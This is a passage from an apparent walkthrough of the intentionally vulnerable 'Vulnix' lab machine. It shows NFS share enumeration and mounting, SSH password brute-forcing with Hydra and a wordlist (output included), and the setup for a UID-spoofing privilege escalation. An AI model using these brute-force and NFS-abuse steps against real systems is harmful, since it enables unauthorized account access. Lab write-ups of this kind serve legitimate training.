 Good, Both the users are valid.

**1.3 NFS enumeration Port 2049**

Since we have NFS service running on port 2069, we may be able to mount a  
share and find some juicy data!  
You’ll need to install nfs-common package if it doesn’t exist already.

```
┌─[root@Dasagreeva]─[~]
└──╼ #showmount -e 192.168.56.10
     Export list for 192.168.56.10:
     /home/vulnix *┌─[root@Dasagreeva]─[~]
└──╼ #mkdir /tmp/nfs
┌─[root@Dasagreeva]─[~]
└──╼ #mount -t nfs 192.168.56.10:/home/vulnix  /tmp/nfs
┌─[root@Dasagreeva]─[~]
└──╼#cd /tmp/nfs 
    bash: cd: /tmp/nfs: Permission denied
```

The mounted share cannot be accessed, probably because the root_squash flag is set. We can safely assume if we have a user named vulnix with the same UID we’ll be able to access it. But we’ll get back to this later.

**2\. Gaining Access**

After wasting a decent amount of time on finding exploits for running services, I wasn’t able to find any, don’t do that, there are services we didn’t explore more properly in the first place.

**2.1 Brute forcing SSH**  
Running Hydra against either user or vulnix is an option with rockyou wordlist, although this will take a very long time (unless you try user user first)!

```
 ┌─[root@Dasagreeva]─[~]
 └──╼#hydra -l user -P rockyou.txt 192.168.1.72 ssh -t 4
 Hydra v8.3 © 2016 by van Hauser/THC — Please do not use in military or secret service organizations, or for illegal purposes.Hydra (<ins>http://www.thc.org/thc-hydra</ins>) starting at 2016–10–30 23:43:08
 [DATA] max 4 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~56032 tries per task
 [DATA] attacking service ssh on port 22
 [STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 4 active
 [STATUS] 61.33 tries/min, 184 tries in 00:03h, 14344215 to do in 3897:54h, 4 active
 [STATUS] 60.71 tries/min, 425 tries in 00:07h, 14343974 to do in 3937:34h, 4 active
 [22][ssh] host: 192.168.1.72 login: user password: letmein
 1 of 1 target successfully completed, 1 valid password found
 Hydra (<ins>http://www.thc.org/thc-hydra</ins>) finished at 2016–10–30 23:51:39
```

**2.2 Privilege escalation P1**

We can now ssh into the victim’s machine as user user but there’s not much to do unfortunately. GCC isn’t installed so a local exploit won’t work since they’re written in C.

If you navigate to \`/home you’ll notice the shared directory we couldn’t access earlier. Why don’t we try to get the UID for vulnix and create a temporary user on our system and access it?
